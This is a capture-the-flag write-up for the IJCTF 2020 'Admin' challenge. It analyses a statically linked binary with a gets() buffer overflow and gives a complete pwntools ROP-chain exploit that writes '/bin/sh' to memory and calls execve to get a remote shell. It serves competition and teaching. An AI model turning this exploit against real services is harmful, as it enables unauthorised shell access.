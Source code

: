 IJCTF 2020  
Admin - (100PT)

####################################################################################################  
Description

This admin thinks his system is very safe Is it actually safe? I say it’s safe
what do you think?  
nc 35.186.153.116 7002  
##################

Analysis:  
admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically
linked, for GNU/Linux 3.2.0,
BuildID[sha1]=0ee31668ec040c05db870d1fcef7e198c0a53d37, stripped  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)

BOF in main  
void main(void)

{  
 int iVar1;  
 undefined auStack72 [64];  
  
 puts(&UNK_004923e4);  
 gets(auStack72); #vulnerable call to gets  
  
 iVar1 = func_0x00400498(auStack72,&UNK_004923ef);  
 if (iVar1 == 0) {  
   puts(&UNK_004923f5);  
 }  
 else {  
   printf(&UNK_00492403,auStack72);  
 }  
 return;  
}

##################  
since the binary is statically linked and it has no pie , No canary.  
Solution : Creating a ROP chain.

rp++ found us some intresting gadgets.

pop_rdi =   0x41dc9a #: pop rdi ; ret ;  
pop_rax =   0x475757 #: pop rax ; ret ;  
pop_rsi =   0x48208c #: pop rsi ; ret ;  
pop_rdx =   0x4aeef2 #: pop rdx ; ret ;  
syscall =   0x475485 #: syscall ;  
###################

we can create a rop chain which will return to gets function to store our
string somewhere in the memory,  
and then we setup the registers for a sys_execve call,

Here is the syscall reference for x64:
https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

------------------------------------------- EXPLOIT ------------------------------------------  
#! /usr/bin/env python3  
from pwn import *  
context.arch='amd64'  
io = remote('35.186.153.116', 7002)  
elf = ELF('admin')

write_mem = 0x6bb300 #the bss segment.  
pop_rdi =   0x41dc9a #: pop rdi ; ret ;  
pop_rax =   0x475757 #: pop rax ; ret ;  
pop_rsi =   0x48208c #: pop rsi ; ret ;  
pop_rdx =   0x4aeef2 #: pop rdx ; ret ;  
syscall =   0x475485 #: syscall ;  
gets = 0x410330 #gets function in binary ;

rop = flat([

	'a'*72, #Padding of 72  
	#we return to pop rdi  gadget;  
	pop_rdi, #pop rdi ; ret ;  
	#pop the address where we want our /bin/sh string to be.  
	write_mem,   
	#return to gets function.  
	gets, #return to gets ;  
	#after gets we return to pop_rdi again,  
	pop_rdi,  
	write_mem, #bin_sh  
	pop_rax, #pop rax ; ret ;  
	0x3b, #syscall number for execve  
	pop_rsi, #pop rsi ; ret ;  
	0x0,  
	pop_rdx, #pop rdx ; ret ;  
	0x0,  
	syscall  
])  
io.sendline(rop)  
#we send /bin/sh  
io.sendline('/bin/sh')  
#pop the shell  
io.interactive()  
---------------------------------------------------------------------------------------------------

If you need any guide on how ROP works.  
There is amazing information available on https://ropemporium.com  

Original writeup
(https://github.com/ano12-dev/IJCTF_writeups/blob/master/admin/writeup).